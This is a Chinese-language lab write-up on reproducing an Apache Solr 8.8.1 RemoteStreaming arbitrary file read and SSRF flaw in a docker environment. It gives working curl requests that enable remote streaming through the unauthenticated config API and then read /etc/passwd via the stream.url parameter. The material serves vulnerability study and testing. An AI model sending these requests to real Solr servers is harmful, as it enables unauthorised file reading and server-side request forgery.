


Apache Solr RemoteStreaming 任意文件读取和SSRF漏洞¶
Apache Solr 是一个开源的搜索服务器。当 Apache Solr 未启用身份认证时，攻击者可以构造请求来启用特定配置，从而可能导致服务器端请求伪造（SSRF）或任意文件读取漏洞。
参考链接：
环境搭建¶
执行如下命令启动 Apache Solr 8.8.1 服务器：
docker compose up -d
服务启动后，访问 http://your-ip:8983/ 即可看到 Apache Solr 的管理界面。
漏洞复现¶
首先，访问http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json获取数据库名：

发送以下请求来修改 demo 核心的配置并启用 RemoteStreaming：
curl -i -s -k -X $'POST' \
-H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
$'http://your-ip:8983/solr/demo/config'

然后，你可以通过 stream.url 参数读取任意文件：
curl -i -s -k 'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
